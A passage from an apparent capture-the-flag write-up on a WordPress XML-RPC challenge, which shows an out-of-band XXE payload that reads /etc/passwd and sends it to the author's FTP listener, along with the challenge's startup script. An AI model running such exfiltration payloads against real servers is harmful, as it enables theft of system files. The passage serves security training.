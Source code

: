 ```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param "<!ENTITY final SYSTEM 'ftp://My.IP:8889/%file;'>">
```
and started a ftp service on my host : 
`python3 -m pyftpdlib -p 8889`

I executed the payload again and the magic happened, I got a request to my ftp :
<img src="../Images/14.png" width="900" />

We can exfiltrate any kind of files now !

I searched during a lot of time inside various files and finally find a reference to a file "startup.sh" in the filesystem root.
I extracted it :

```
#!/bin/bash

cd /var/www/html/
wp-cli --allow-root config create --dbhost=127.0.0.1 --dbname=wp --dbuser=wp --dbpass=password --dbprefix=wp_ --skip-check
wp-cli --allow-root config set AUTOMATIC_UPDATER_DISABLED true --raw
wp-cli --allow-root core install --title="Site personnel du DG'Hack" --admin_user=admin  --admin_password="$(openssl rand -hex 10)" --admin_email=sysadmin@demo.fr --url="http://$1" --skip-email
wp-cli --allow-root post update 1 --post_content="J'ai voulu refaire l'implémentation du XML-RPC de WordPress mais j'ai tout cassé je crois..." --post_title="Oups"
wp-cli --allow-root comment update 1 --comment_content="C'est pas grave, j'ai pris des mesures pour que l'on ne se fasse pas attaquer." --comment_author="sysadmin"
wp-cli --allow-root plugin install /admin-logs.zip --activate
```

Whoops, looks like the file used to initialize the challenge.. what is this admin-logs.zip archive ?
I extracted admin-logs.zip which was also on the root of the filesystem and found source-code of a custom wordpress plugin with interresting code like:

